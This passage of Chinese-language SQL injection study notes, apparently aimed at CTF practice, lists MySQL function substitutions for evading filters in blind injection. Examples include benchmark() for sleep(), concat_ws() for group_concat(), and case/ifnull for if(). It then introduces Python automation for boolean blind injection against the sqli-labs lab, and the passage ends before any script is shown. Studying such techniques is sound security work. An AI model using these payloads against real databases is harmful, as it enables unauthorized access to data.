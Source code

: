 ### 12.过滤函数绕过
#### sleep()被过滤时
sleep()时延时盲注中最常见的函数 当sleep()被过滤时可以使用benchmark()来代替

```sql
sleep() -->benchmark()
select 12,23 and sleep(1);
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
select 12,23 and benchmark(10000000,1);
```

#### ascii()被过滤时
```sql
ascii()–>hex()、bin()
替代之后再使用对应的进制转string即可
```

#### group_concat()被过滤时
```sql
group_concat()–>concat_ws()
select group_concat(“str1”,“str2”);#等价于
select concat_ws(“,”,“str1”,“str2”);
```

#### <font style="color:#000000;">substr(),substring(),mid()被过滤时</font>
```sql
substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
```

#### <font style="color:#000000;">user() datadir ord()被过滤时</font>
```sql
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。
```

#### <font style="color:#000000;">过滤了if函数：</font>
```sql
if函数的判断语句
select if(substr(database(),1,1)='c',1,0);
IFNULL函数
select ifnull(substr(database(),1,1)='c',0);
case when then函数
select case substr(database(),1,1)='c' when 1 then 1 else 0 end;
```

# SQL自动化注入的python脚本
SQL自动化注入工具一般使用python脚本 使用python脚本的好处在于可以根据题目需要的条件修改相应的部分 而且编写起来也比较方便



### 布尔盲注的python脚本编写思路（大概思路）
以sqli-labs less8为例
